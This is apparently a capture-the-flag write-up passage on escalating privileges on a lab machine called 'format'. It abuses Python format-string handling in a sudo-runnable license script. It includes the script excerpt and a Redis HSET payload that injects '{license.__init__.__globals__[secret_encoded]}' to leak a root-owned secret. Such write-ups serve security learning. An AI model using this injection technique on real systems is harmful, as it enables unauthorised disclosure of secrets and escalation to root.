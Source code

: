 ## Vertical Privilege Escalation

This user has sudo permission on `(root) /usr/bin/license`.

```
cooper@format:~$ sudo -l
[sudo] password for cooper:
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
```

This program is a Python script, and everyone has read permission for this file. This program contains a secret that used to encrypt a license key.

```python
secret = [line.strip() for line in open("/root/license/secret")][0]
secret_encoded = secret.encode()
salt = b'microblogsalt123'
kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=salt,iterations=100000,backend=default_backend())
encryption_key = base64.urlsafe_b64encode(kdf.derive(secret_encoded))
```

There's a interesting part of the program that can be abuse to read this secret variable.

```python
class License():
    def __init__(self):
        chars = string.ascii_letters + string.digits + string.punctuation
        self.license = ''.join(random.choice(chars) for i in range(40))
        self.created = date.today()

...
l = License()
...

    prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```

This program accepts a Redis key that will be used to get the username,first-name, and last-name for creating the license key. Because I can control what the value is, I can use this format string `{license.__init__.__globals__[secret-encoded]}` to extract the secret value. Let's create a new Redis key with the format string as the username.

```
HSET gh0st username "{license.__init__.__globals__[secret_encoded]}" first-name first last-name last
```
